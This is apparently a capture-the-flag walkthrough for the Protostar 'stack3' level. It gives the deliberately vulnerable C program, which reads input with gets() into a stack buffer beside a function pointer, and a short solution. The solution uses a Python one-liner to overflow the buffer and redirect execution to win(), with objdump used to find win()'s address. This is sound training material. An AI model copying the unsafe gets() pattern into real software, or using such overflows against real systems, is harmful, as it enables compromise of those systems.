 #### Stack3

###### About

- Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

- Hints
	- Both ``gdb`` and ``objdump`` is your friend you determining where the ``win()`` function lies in memory.
	
- This level is at ``/opt/protostar/bin/stack3``

``stack3.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*68" | ./stack3
calling function pointer, jumping to 0x41414141
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>:
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*64 +'\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$
```



